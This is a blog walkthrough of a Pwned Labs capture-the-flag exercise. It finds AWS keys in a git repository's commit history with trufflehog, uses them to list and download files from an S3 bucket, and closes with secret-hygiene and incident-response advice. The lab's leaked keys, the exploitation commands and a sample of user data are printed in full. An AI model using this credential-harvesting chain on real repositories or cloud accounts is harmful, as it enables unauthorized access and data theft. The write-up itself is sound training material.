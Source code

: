 ```yaml
---
title: "Pwned Labs - Hunt for Secrets in Git Repos"
date: 2024-02-16
categories: [AWS, Cloud, Security]
tags: [AWS, Security, git, secrets, PwnedLabs]
---
```


![Intro](/images/PwnedLabs/Secrets_in_git/1.png)

Hola Amigo! kaise ho theek ho? This time we will be solving [Hunt for Secrets in Git Repos](https://pwnedlabs.io/labs/hunt-for-secrets-in-git-repos) challenge.\
There have been many [data breaches](https://www.breaches.cloud/tags/github/) because of leaked credentials in Git repos. In this challenge we will be finding secrets such as AWS Credentials in one of the github repositories and use them for further exploitation.

In this challenge we are provided with a github repository. Firstly, we will clone this repository into our system.

```
git clone https://github.com/huge-logistics/cargo-logistics-dev
```

[Trufflehog](https://github.com/trufflesecurity/trufflehog) is a very popular tool for finding secrets in git repositories. You can install it with `pip install trufflehog`.

When we run trufflehog against the repository provided, we can notice AWS Credentials found. We can assume that the devloper commited AWS Credentials in the repository and later removed them in the commit `Delete log-s3-test directory`. But, since it is a git repo, we can find the deleted items in the commit history. 

```
❯ trufflehog  --regex --entropy=False .\cargo-logistics-dev\
~~~~~~~~~~~~~~~~~~~~~
Reason: AWS API Key
Date: 2023-07-05 22:16:16
Hash: ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Filepath: log-s3-test/log-upload.php
Branch: origin/main
Commit: Delete log-s3-test directory
AKIAWHEOTHRFSGQITLIY
~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~
Reason: Generic Secret
Date: 2023-07-05 22:16:16
Hash: ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Filepath: log-s3-test/log-upload.php
Branch: origin/main
Commit: Delete log-s3-test directory
secret' => "IqHCweAXZOi8WJlQrhuQulSuGnUO51HFgy7ZShoB"
~~~~~~~~~~~~~~~~~~~~~
```
If we run the git diff command, we can view the changes between the two commits. We can clearly observe here that the AWS Credentials, bucket name and other data was deleted from the `log-upload.php` file.

```
❯ git diff 9815edaef0626c905952046f7ca70315069c0e39 ea1a7618508b8b0d4c7362b4044f1c8419a07d99
```
![Intro](/images/PwnedLabs/Secrets_in_git/2.png)

Now the next step is to export those keys into our environment and use them to further enumerate and exploit. We can use `aws configure` to import access key and secret key in our environment. 

After that, we try to list the contents in the S3 bucket `huge-logistics-transact` we found in the github repository. We can notice that this bucket contains `flag.txt` and a `web_transactions.csv` file which contains sensitive data. 

```
❯ aws s3 ls huge-logistics-transact --profile git
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv

❯ aws s3 cp s3://huge-logistics-transact/flag.txt - --profile git
fe108d6a1a0937b0a7620947a678aabf

❯ aws s3 cp s3://huge-logistics-transact/web_transactions.csv - --profile git
id,username,email,ip_address
1,aemblen0,csautter0@soup.io,196.54.202.51
2,jpiff1,rgovett1@cafepress.com,59.222.23.53
3,aharbour2,bgilfether2@seattletimes.com,178.60.232.230
4,clomis3,rhardwich3@alibaba.com,165.58.39.76
5,cmalthus4,morrobin4@omniture.com,164.101.115.130
6,rnussii5,bembury5@reference.com,235.243.126.82
7,tstquintin6,ddelmage6@japanpost.jp,106.79.209.13
8,areuben7,mbeadham7@csmonitor.com,254.118.21.81
9,kbegley8,jbuff8@nytimes.com,4.163.136.96
10,hellerington9,sferreli9@naver.com,127.116.67.79
```

## Lessons learned
- Never hardcode sensitive data such as AWS Credentials in source code.
- Never commit sensitive data such as passwords, AWS Credentials in your public repositories.
- Implement proper SAST and Secret scanning tools in your CI/CD pipeline and your systems which scan and alerts you before you commit such sensitive data.

    ![Intro](/images/PwnedLabs/Secrets_in_git/4.png)

- If sensitive data such as Passwords, AWS Credentials are exposed in github repositories or any public source, deleting them from your git is not a proper solution as we observed that one can find such sensitive data in commit history, what's recommended is to disable/delete those keys and create new keys for your work which are stored in a secure location.
- You can also tools like [git secrets](https://github.com/awslabs/git-secrets) from AWS to scan for secrets in git repositories. 
- Incident Response tip : In a scenario where you found out that a set of AWS Credentials are leaked, follow the below steps:
    1. Disable the Access key and DO NOT delete them as they might be used in your environment for critical tasks.
    2. Apply a `deny all` policy on the resource the keys belong to. 
    3. Revoke any active sessions as there might be a possibility that the attacker acquired temporary credentials via `sts:GetFederationToken`.
    4. Now investivate further for all the activities performed by the leaked set of credentials with Cloudtrail and other services.
    5. Once everything is done, and you are confirmed that the attacker is not in your account anymore, rotate the credentials.
- Rotate the credentials on a specific time period.
- AWS sends you an email if it founds AWS Credentials exposed in your public repositories and, AWS also applies a [AWSCompromisedKeyQuarantineV2](https://docs.aws.amazon.com/aws-managed-policy/latest/reference/AWSCompromisedKeyQuarantineV2.html) policy on the principle those credentials belongs to, to block some malicious activities.
  ![Intro](/images/PwnedLabs/Secrets_in_git/3.png)